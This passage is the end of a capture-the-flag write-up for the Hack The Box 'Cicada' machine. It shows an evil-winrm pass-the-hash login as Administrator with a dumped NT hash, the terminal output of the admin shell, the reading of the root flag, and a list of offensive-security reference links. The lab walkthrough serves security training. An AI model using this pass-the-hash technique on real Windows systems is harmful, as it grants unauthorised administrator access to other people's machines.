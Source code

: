 lmhash and nthash are different types of hashes, being lmhash the weakest one, if we had to do bruteforce, the best guess is to use the lmhash (evil-winrm supports both).

We can login as admin with only the hash thanks to the Pass the Hash from evil-winrm:
```
┌──(oriol㉿zero)-[~]
└─$ evil-winrm -i cicada.htb -u 'Administrator' -H '2b87e7c93a3e8a0ea4a581937016f341' 
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
cicada\administrator
```

And we got the root flag!
```
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
53e86cf29f00188c1897aaf90613f518
```


# Links used
https://d4t4s3c.medium.com/sebackupprivilege-windows-privilege-escalation-c7a05e3f1568
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/password-spraying
https://highon.coffee/blog/enum4linux-cheat-sheet/
https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology
https://www.mdsec.co.uk/2024/02/active-directory-enumeration-for-red-teams/
https://docs.redhat.com/es/documentation/red_hat_enterprise_linux/8/html/deploying_different_types_of_servers/assembly_using-the-smbclient-utility-to-access-an-smb-share_assembly_using-samba-as-a-server
https://book.hacktricks.xyz/es/network-services-pentesting/135-pentesting-msrpc
https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation
http://www.adshotgyan.com/2012/02/lm-hash-and-nt-hash.html
